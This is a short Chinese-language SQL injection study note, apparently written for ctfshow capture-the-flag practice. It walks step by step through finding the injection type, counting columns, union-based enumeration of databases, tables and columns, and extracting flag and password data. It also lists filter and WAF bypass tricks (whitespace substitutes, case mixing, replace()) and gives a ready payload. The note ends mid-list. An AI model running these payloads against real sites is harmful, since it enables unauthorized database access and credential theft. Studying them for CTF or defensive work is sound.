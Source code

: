 # sql注入学习1

<br>


## 第一步：判断注入类型

<br>

* 数字型: 使用 1 and 1=2和1 and 1=1来判断(如果没报错，那就不是数字型注入)
* 字符型： 试试可能的闭合符   '    "    ')    ")

<br>

## 第二步: 联合查询前写入语句

<br>

* 可能的闭合符   '  "  ')  ")
* 不需要的语句可以用注释符号 --+ 或者 # 或者 %23 注释掉
* 使用group by 或者Order by 确定数据列数量:id=-2'group by 4--+
* 查找回显位:使你提交的结果能够在页面上给你体现出来 使用语句?id=-2'union select 1,2,3--+(回显的内容的数字就可以知道是哪个位置了)

<br>

## 第三步: 查询库 表 列
* 查找库名:?id=-2'union select 1,2,database()--+ (三号位就是苦库的名）
* 查找表名:id=-2'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+(这段话用于在总表information_schema中查找database()的库所对应的table_name，也就是显示这个库中所有的表名。而group_concat则可以把这些表拼接起来)
* 查找列名:id=-2'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() --+(原理几乎同上)

## 第四步：查询数据库
* -2'union select * from ctfshow_web.ctfshow_user where username = 'flag' --+ （在名为ctfshow_web的库里找到名为ctfshow_user的表，并且从中寻找列名username的值为flag的数据）

<br>

# 特别的绕过方式
* replace(username,'f','g'),使用改名使得flag绕过preg_match(只能对返回值过滤进行绕过)
* 空格绕过： %0a %0d %0c /**/ + 
* 换行绕过空格： %0b（用于空格绕过都不成功的情况）

<br>

## 一些可以参考的playload
* 1'%0aunion%0asElect%0a1,2,%0agroup_concat(password)%0afrom%0actfshow_user%23



<br>

## waf绕过
* 大小写